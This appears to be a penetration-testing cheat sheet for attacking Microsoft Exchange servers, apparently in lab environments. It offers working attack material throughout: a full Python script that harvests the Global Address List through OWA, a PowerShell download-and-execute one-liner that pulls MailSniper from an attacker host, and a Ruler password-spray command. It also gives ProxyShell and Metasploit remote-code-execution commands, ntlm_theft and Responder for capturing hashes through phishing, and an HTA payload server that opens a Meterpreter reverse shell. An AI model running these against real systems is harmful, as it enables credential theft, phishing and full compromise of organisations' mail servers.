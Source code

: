# Exchange

To enumerate the version of Microsoft Exchange

```bash
curl https://10.129.132.217/ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application -k | xmllint --format - | grep version 
```

### Exporting username lists and test.

If we already have access to a computer within the domain or an email. [https://github.com/pigeonburger/global-address-list-owa](https://github.com/pigeonburger/global-address-list-owa)

<details>

<summary>Modified script to bypass SSL errors</summary>

```
# Extraction of the Global Address List (GAL) on Exchange >=2013 servers via Outlook Web Access (OWA) 
# By Pigeonburger, June 2021
# https://github.com/pigeonburger

# module import heehoo
import requests, json, argparse
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# argparser hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh
parser = argparse.ArgumentParser(description="Extract the Global Address List (GAL) on Exchange 2013 servers via Outlook Web Access (OWA)")
parser.add_argument("-i", "--host", dest="hostname",
                  help="Hostname for the Exchange Server", metavar="HOSTNAME", type=str, required=True)
parser.add_argument("-u", "--username", dest="username",
                  help="A username to log in", metavar="USERNAME", type=str, required=True)
parser.add_argument("-p", "--password", dest="password",
                  help="A password to log in", metavar="PASSWORD", type=str, required=True)
parser.add_argument("-o", "--output-file", dest="output",
                  help="Specify file to output emails to (default is global_address_list.txt)", metavar="OUTPUT FILE", type=str, default="global_address_list.txt")

args = parser.parse_args()

url = args.hostname
USERNAME = args.username
PASSWORD = args.password
OUTPUT = args.output


# Start the session
s = requests.Session()
print("Connecting to %s/owa" % url)


# Get OWA landing page
# Add https:// scheme if not already added in the --host arg
try:
    s.get(url+"/owa", verify=False)
    URL = url
except requests.exceptions.MissingSchema:
    s.get("https://"+url+"/owa", verify=False)
    URL = "https://"+url


# Other URLs we need later
AUTH_URL = URL+"/owa/auth.owa"
PEOPLE_FILTERS_URL = URL + "/owa/service.svc?action=GetPeopleFilters"
FIND_PEOPLE_URL = URL + "/owa/service.svc?action=FindPeople"


# Attempt a login to OWA
login_data={"username":USERNAME, "password":PASSWORD, 'destination': URL, 'flags': '4', 'forcedownlevel': '0'}
r = s.post(AUTH_URL, data=login_data, headers={'user-agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0"}, verify=False)


# The Canary is a unique ID thing provided upon a successful login that's also required in the header for the next few requests to be successful.
# Even upon an incorrect login, OWA still gives a 200 status, so we can also check if the login was successful by seeing if this cookie was set or not.
try:
    session_canary = s.cookies['X-OWA-CANARY']
except:
    exit("\nInvalid Login Details. Login Failed.")
print("\nLogin Successful!\nCanary key:", session_canary)


# Returns an object containing the IDs of all accessible address lists, so we can specify one in the FindPeople request
r = s.post(PEOPLE_FILTERS_URL, headers={'Content-type': 'application/json', 'X-OWA-CANARY': session_canary, 'Action': 'GetPeopleFilters'}, data={}, verify=False).json()


# Find the Global Address List id
for i in r:
    if i['DisplayName'] == "Default Global Address List":
        AddressListId = i['FolderId']['Id']
        print("Global List Address ID:", AddressListId)
        break


# Set to None to return all emails in the list (this is the search term for the FindPeople request)
query = None


# Set the max results for the FindPeople request.
max_results = 99999


# POST data for the FindPeople request
peopledata = {
    "__type": "FindPeopleJsonRequest:#Exchange",
    "Header": {
        "__type": "JsonRequestHeaders:#Exchange",
        "RequestServerVersion": "Exchange2013",
        "TimeZoneContext": {
            "__type": "TimeZoneContext:#Exchange",
            "TimeZoneDefinition": {
                "__type": "TimeZoneDefinitionType:#Exchange",
                "Id": "AUS Eastern Standard Time"
            }
        }
    },
    "Body": {
        "__type": "FindPeopleRequest:#Exchange",
        "IndexedPageItemView": {
            "__type": "IndexedPageView:#Exchange",
            "BasePoint": "Beginning",
            "Offset": 0,
            "MaxEntriesReturned": max_results
        },
        "QueryString": query,
        "ParentFolderId": {
            "__type": "TargetFolderId:#Exchange",
            "BaseFolderId": {
                "__type": "AddressListId:#Exchange",
                "Id": AddressListId
            }
        },
        "PersonaShape": {
            "__type": "PersonaResponseShape:#Exchange",
            "BaseShape": "Default"
        },
        "ShouldResolveOneOffEmailAddress": False
    }
}


# Make da request.
r = s.post(FIND_PEOPLE_URL, headers={'Content-type': 'application/json', 'X-OWA-CANARY': session_canary, 'Action': 'FindPeople'}, data=json.dumps(peopledata), verify=False).json()


# Parse out the emails, print them and append them to a file.
userlist = r['Body']['ResultSet']

with open(OUTPUT, 'a+') as outputfile:
    for user in userlist:
        email = user['EmailAddresses'][0]['EmailAddress']
        outputfile.write(email+"\n")
        print(email)

print("\nFetched %s emails" % str(len(userlist)))
print("Emails written to", OUTPUT)
```

</details>

```bash
python3 emailextract.py -i exch01.zencorp.local -u zen@zencorp.ocal -p 'pass@123'
```

#### Or use windows

PS C:\Tools> IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.228:8000/MailSniper.ps1') PS C:\Tools> Get-GlobalAddressList -ExchHostname exch01.zencorp.local -Username zen -Password 'pass@123' -OutFile globaladdresslist.txt

### <mark style="color:yellow;">Password Spray</mark>

Use Ruler for password Spray

```bash
./ruler-linux64 --domain zencorp.local --insecure brute --users global_address_list.txt --passwords passwords.txt --verbose -a 4
```

### <mark style="color:yellow;">ProxyShell</mark>

```bash
proxyshell.py -u https://10.129.230.42/ -e Administrator@zencorp.local 
```

Or use metasploit

```bash
use exploit/windows/http/exchange_proxyshell_rce
```

### <mark style="color:yellow;">Phishing Attacks</mark>

Generate a htm file with ntlm\_theft, create htm file, attach in email and capture in Responder

```bash
# Create html file
python3 ntlm_theft.py -g htm -s 10.10.14.80 -f students

# Responder
sudo responder -I tun0
```

#### Arbitrary File Execution

With [https://www.shellterproject.com/](https://www.shellterproject.com/) its possible to take a legit executable and inject a malicious code to get a reverse shell.

#### Create a HTA file

```bash
# It will create and host the .hta file
msfconsole -x "use exploit/windows/misc/hta_server; set LHOST 10.10.14.207; set LPORT 8443; set SRVHOST 10.10.14.207; run -j"

# Send the link and once clicked
[*] Meterpreter session 1 opened (10.10.14.207:8443 -> 10.129.231.81:62367) at 2024-08-13 17:52:01 -0400
```
